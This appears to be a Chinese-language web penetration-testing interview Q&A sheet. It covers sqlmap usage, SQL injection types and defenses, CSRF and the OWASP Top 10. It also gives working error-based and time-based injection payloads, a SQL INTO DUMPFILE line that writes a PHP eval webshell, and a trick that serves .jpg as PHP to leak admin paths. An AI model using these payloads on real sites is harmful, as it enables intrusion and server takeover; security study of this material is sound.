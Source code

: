 一，sqlmap，怎么对一个注入点注入？
        1）如果是get型号，直接，sqlmap -u "诸如点网址".
        2) 如果是post型诸如点，可以sqlmap -u "注入点网址” --data="post的参数"
        3）如果是cookie，X-Forwarded-For等，可以访问的时候，用burpsuite抓包，注入处用*号替换，放到文件里，然后sqlmap -r "文件地址"

二，nmap，扫描的几种方式
三，sql注入的几种类型？
        1）报错注入
        2）bool型注入
        3）延时注入
        4）宽字节注入
四，报错注入的函数有哪些？ 10个
        1）and extractvalue(1, concat(0x7e,(select @@version),0x7e))】】】----------------
        2）通过floor报错 向下取整
        3）+and updatexml(1, concat(0x7e,(secect @@version),0x7e),1)
        4）.geometrycollection()select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));
        5）.multipoint()select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));
        6）.polygon()select * from test where id=1 and polygon((select * from(select * from(select user())a)b));
        7）.multipolygon()select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));
        8）.linestring()select * from test where id=1 and linestring((select * from(select * from(select user())a)b));
        9）.multilinestring()select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));
       10）.exp()select * from test where id=1 and exp(~(select * from(select user())a));

五，延时注入如何来判断？
        if(ascii(substr(“hello”, 1, 1))=104, sleep(5), 1)
六，盲注和延时注入的共同点？
        都是一个字符一个字符的判断
七，如何拿一个网站的webshell？
        上传，后台编辑模板，sql注入写文件，命令执行，代码执行，
        一些已经爆出的cms漏洞，比如dedecms后台可以直接建立脚本文件，wordpress上传插件包含脚本文件zip压缩包等
八，sql注入写文件都有哪些函数？
        select '一句话' into outfile '路径'
        select '一句话' into dumpfile '路径'
        select '<?php eval($_POST[1]) ?>' into dumpfile  'd:\\wwwroot\baidu.com\nvhack.php';
九，如何防止CSRF?
        1,验证referer
        2，验证token
        详细：http://cnodejs.org/topic/5533dd6e9138f09b629674fd
十，owasp 漏洞都有哪些？
        1、SQL注入防护方法：
        2、失效的身份认证和会话管理
        3、跨站脚本攻击XSS
        4、直接引用不安全的对象
        5、安全配置错误
        6、敏感信息泄露
        7、缺少功能级的访问控制
        8、跨站请求伪造CSRF
        9、使用含有已知漏洞的组件
        10、未验证的重定向和转发
十一：SQL注入防护方法？
        1、使用安全的API
        2、对输入的特殊字符进行Escape转义处理
        3、使用白名单来规范化输入验证方法
        4、对客户端输入进行控制，不允许输入SQL注入相关的特殊字符
        5、服务器端在提交数据库进行SQL查询之前，对特殊字符进行过滤、转义、替换、删除。
十二，代码执行，文件读取，命令执行的函数都有哪些？
        1，代码执行：eval,preg_replace+/e,assert,call_user_func,call_user_func_array,create_function
        2，文件读取：file_get_contents(),highlight_file(),fopen(),read file(),fread(),fgetss(), fgets(),parse_ini_file(),show_source(),file()等
        3，命令执行：system(), exec(), shell_exec(), passthru() ,pcntl_exec(), popen(),proc_open()
十三，img标签除了onerror属性外，还有其他获取管理员路径的办法吗？
        src指定一个远程的脚本文件，获取referer
十四，img标签除了onerror属性外，并且src属性的后缀名，必须以.jpg结尾，怎么获取管理员路径。
        1,远程服务器修改apache配置文件，配置.jpg文件以php方式来解析
        AddType application/x-httpd-php .jpg
        <img src=http://xss.tv/1.jpg> 会以php方式来解析


